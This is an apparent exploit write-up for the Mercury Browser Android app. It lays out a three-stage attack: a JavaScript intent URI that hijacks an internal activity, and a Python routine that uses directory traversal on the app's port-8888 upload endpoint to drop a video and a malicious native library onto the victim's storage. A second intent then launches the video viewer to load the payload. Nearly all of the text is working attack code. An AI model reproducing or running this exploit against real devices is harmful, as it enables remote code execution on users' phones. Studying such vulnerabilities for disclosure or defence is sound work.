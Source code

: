 ### Intent Hijacking Mechanism

The vulnerability exploits Mercury Browser's **intent handling logic** through a multi-stage attack:

**Stage 1: Activity Access**

```html
<!-- Malicious HTML triggering intent hijacking -->
<script>
setTimeout(function(){ 
    location.href="intent://stuff#Intent;component=com.ilegendsoft.mercury/com.ilegendsoft.mercury.external.wfm.ui.WFMActivity2;action=android.intent.action.VIEW;end" 
}, 1);
</script>
```

**Stage 2: File Upload Exploitation**

```python
# HTTP endpoint for arbitrary file upload
uri = f'http://{victim_ip}:8888/doupload?dir=../../../../../../../sdcard/Mercury/Downloads/&id={session_id}'
```

**Stage 3: Execution Trigger**

```javascript
// Triggering video viewer with uploaded payload
setTimeout(function(){ 
    location.href="intent:#Intent;S.path=/sdcard/Mercury/Downloads/video.mp4;component=com.ilegendsoft.mercury/.ui.activities.filemanager.video.viewer.VideoViewerActivity;end" 
}, 10000);
```

### File Upload Vulnerability

The exploitation leverages Mercury Browser's **upload functionality** with directory traversal:

```python
def upload_malicious_files(self, victim_ip):
    """Upload video and library files to victim device"""
    base_uri = f'http://{victim_ip}:8888/doupload'
    upload_dir = '../../../../../../../sdcard/Mercury/Downloads/'
    session_id = 'd677a3fa-d21d-4c7f-9cb3-e9c8ab72203b'
    
    headers = {
        "Content-Type": "multipart/form-data; boundary=---------------------------8579684710260803921039462934"
    }
    
    # Upload malicious video file
    video_uri = f'{base_uri}?dir={upload_dir}&id={session_id}'
    with open('video/video.mp4', 'rb') as video_file:
        files = {'file': ('video.mp4', video_file, 'video/mp4')}
        requests.post(video_uri, files=files, headers=headers)
    
    # Upload malicious library
    with open('fake_lib/libpayload.so', 'rb') as lib_file:
        files = {'file': ('libpayload.so', lib_file, 'application/octet-stream')}
        requests.post(video_uri, files=files, headers=headers)
```
